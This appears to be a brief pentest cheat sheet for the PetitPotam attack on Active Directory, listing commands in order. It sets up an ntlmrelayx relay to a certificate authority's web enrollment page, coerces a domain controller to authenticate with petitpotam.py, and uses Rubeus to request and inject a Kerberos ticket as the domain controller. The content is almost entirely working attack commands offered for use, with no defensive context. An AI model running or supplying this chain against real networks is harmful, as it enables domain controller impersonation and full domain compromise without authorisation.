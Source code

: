 ### source
https://github.com/ollypwn/PetitPotam  

### find certificate autthority
```
certutil.exe
```

### set up ntlm relay (forward incoming authentication from domain controller to certificate authority)
```
python3 ntlmrelayx.py -t http://<certificateAuthority>/certsrv/certfnsh.asp -smb2support --adcs
```

### trigger authentication from domain controller
```
python3 petitpotam.py '<lhost>' '<domainController>'
```

### request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

